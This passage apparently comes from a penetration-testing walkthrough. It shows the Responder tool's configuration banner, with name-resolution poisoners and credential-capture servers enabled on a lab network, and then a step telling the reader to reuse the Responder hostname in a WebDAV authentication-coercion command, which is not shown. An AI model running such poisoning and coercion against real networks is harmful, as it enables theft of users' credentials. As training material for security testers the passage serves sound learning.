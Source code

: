 
							[+] Poisoners:
							    LLMNR                      [ON]
							    NBT-NS                     [ON]
							    MDNS                       [ON]
							    DNS                        [ON]
							    DHCP                       [OFF]

							[+] Servers:
							    HTTP server                [OFF]
							    HTTPS server               [ON]
							    WPAD proxy                 [OFF]
							    Auth proxy                 [OFF]
							    SMB server                 [OFF]
							    Kerberos server            [ON]
							    SQL server                 [ON]
							    FTP server                 [ON]
							    IMAP server                [ON]
							    POP3 server                [ON]
							    SMTP server                [ON]
							    DNS server                 [ON]
							    LDAP server                [ON]
							    RDP server                 [ON]
							    DCE-RPC server             [ON]
							    WinRM server               [ON]


							[+] HTTP Options:
							    Always serving EXE         [OFF]
							    Serving EXE                [OFF]
							    Serving HTML               [OFF]
							    Upstream Proxy             [OFF]
							                                                                                                                                                                                     
							[+] Poisoning Options:
							    Analyze Mode               [OFF]
							    Force WPAD auth            [OFF]
							    Force Basic Auth           [OFF]
							    Force LM downgrade         [OFF]
							    Force ESS downgrade        [OFF]
							                                                                                                                                                                                     
							[+] Generic Options:
							    Responder NIC              [eth1]
							    Responder IP               [10.0.0.100]
							    Responder IPv6             [fe80::75ba:852d:7164:8f7f]
							    Challenge set              [random]
							    Don't Respond To Names     ['ISATAP', 'ISATAP.LOCAL'
							                                                                                                                                                                                     
							[+] Current Session Variables:
							    Responder Machine Name     [WIN-8HXSFEBUCWT]
							    Responder Domain Name      [24PT.LOCAL]
							    Responder DCE-RPC Port     [45789]
							                                                                                                                                                                                     
							[+] Listening for events...

					1. Copy the hostname produced by Responder in the line, "Responder Machine Name." Paste it into the below command. Watch the authentication coercion proceed. The target is the system with the WebDAV client running.
